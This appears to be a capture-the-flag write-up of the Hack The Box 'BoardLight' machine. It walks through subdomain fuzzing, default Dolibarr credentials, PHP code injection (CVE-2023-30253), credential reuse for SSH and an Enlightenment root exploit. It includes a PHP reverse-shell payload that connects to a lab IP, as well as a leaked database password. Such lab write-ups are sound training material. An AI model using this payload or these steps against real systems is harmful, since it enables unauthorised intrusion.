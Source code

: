 ```yaml
---
title:  HTB - BoardLight
date: 2024-02-02 12:17:34 -0400
categories: [hackthebox , BoardLight]
tags: [HackTheBox, Dolibarr, PHP, CVE-2023-30253, LinPEAS, CVE-2022-37706]
image:
  path: /assets/img/post/boardlight/BoardLight-card.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - BoardLight.
---
```


## Box Info

| Name                  | BoardLight       | 
| :-------------------- | ---------------: |
| Release Date          | 25 May, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## **Enumeration**

![Image](/assets/img/post/boardlight/0.png)

### SubDomain

```bash
wfuzz -c -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt "Host: FUZZ.board.htb" -u [](http://board.htb/)[http://board.htb](http://board.htb)
```

![Image](/assets/img/post/boardlight/1.png)

![Image](/assets/img/post/boardlight/2.png)

![Image](/assets/img/post/boardlight/e.png)

![Image](/assets/img/post/boardlight/z.png)

The login page is using the default credentials by Dolibarr

## Dolibarr 17.0.0

### CVE-2023-30253

[`Missing Error Handling | OWASP Foundation`](https://owasp.org/www-community/vulnerabilities/Missing_Error_Handling)

The version Dolibarr 17.0.0 has a vulnerability to `PHP Code injection` (RCE) (CVE-2023-30253)

[Dolibarr confirm RCE in the version 17.0.0](https://github.com/advisories/GHSA-9wqr-5jp4-mjmh)


[Security Advisory: Dolibarr 17.0.0 PHP Code Injection (CVE-2023-30253) - Swascan](https://www.swascan.com/security-advisory-dolibarr-17-0-0/)

![Image](/assets/img/post/boardlight/b.png)

We make a page and use PHP for try to get a reverse shell.

![Image](/assets/img/post/boardlight/x.png)

![Image](/assets/img/post/boardlight/s.png)

```js
<?PHP echp system("whoami");?>
```

![Image](/assets/img/post/boardlight/a.png)

```php
<section id="mysection1" contenteditable="true">
<?PHP echo system("bash -c 'bash -i >& /dev/tcp/10.10.14.88/7777 0>&1'");?>
</section>
```

[https://wiki.dolibarr.org/index.php?title=Backups](https://wiki.dolibarr.org/index.php?title=Backups)

### Credentials

```zsh
$dolibarr_main_db_name='dolibarr'; $dolibarr_main_db_prefix='llx_'; $dolibarr_main_db_user='dolibarrowner'; $dolibarr_main_db_pass='serverfun2$2023!!'; $dolibarr_main_db_type='mysqli';

dolibarrowner

serverfun2$2023!!

cat /etc/passwd | grep bash

SSH:

larissa

serverfun2$2023!!
```

![Image](/assets/img/post/boardlight/3.png)


I found no exploitable points and uploaded linpeas to scan for vulnerabilities.

## LinPEAS

`_LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix_/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)_`

[PEASS-ng/linPEAS at master · peass-ng/PEASS-ng](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

## Enlightenment_sys

Enlightenment_sys in some cases could be an internal component or refer to scripts or tools for interacting with Enlightenment; it could also be a module or a configuration depending on the context.

![Image](/assets/img/post/boardlight/4.png)

In this point it's just exploit the CVE for scalation previleges and get the root flag.

[GitHub - MaherAzzouzi/CVE-2022-37706-LPE-exploit: A reliable exploit + write-up to elevate privileges to root. (Tested on Ubuntu 22.04)](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main)

Run exploit.sh and you obtained the shell as `root`.